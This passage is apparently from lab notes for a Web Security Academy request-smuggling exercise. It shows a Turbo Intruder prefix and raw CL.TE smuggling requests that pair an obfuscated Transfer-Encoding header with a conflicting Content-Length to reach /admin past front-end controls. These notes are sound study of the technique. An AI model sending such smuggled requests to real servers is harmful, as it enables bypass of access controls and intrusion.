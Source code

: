 

#####  RESPONSE:
"Unrecognized method GPOST"

---


#### Bypass front-end security controls 
##### CL.TE vulnerability

 _Turbo truder initial config

 >   # This will prefix the victim's request. Edit it to achieve the desired effect.
    `prefix = '''GET /admin HTTP/1.1
`X-Ignore: X'''

- 1st request

```
POST / HTTP/1.1
Host: acb01f791f358360c0f7901000650001.web-security-academy.net
Cookie: session=eu4TfRuSOBg8KLcGj6LaQE6C3gVsh6Ec
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked

3
x=y
0
```

```
GET /admin HTTP/1.1
X-Ignore: X
```

---
- 2nd, 3rd, 4th & 5th
---

```
POST / HTTP/1.1
Host: acb01f791f358360c0f7901000650001.web-security-academy.net
Cookie: session=eu4TfRuSOBg8KLcGj6LaQE6C3gVsh6Ec
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked

3
x=y
0
```
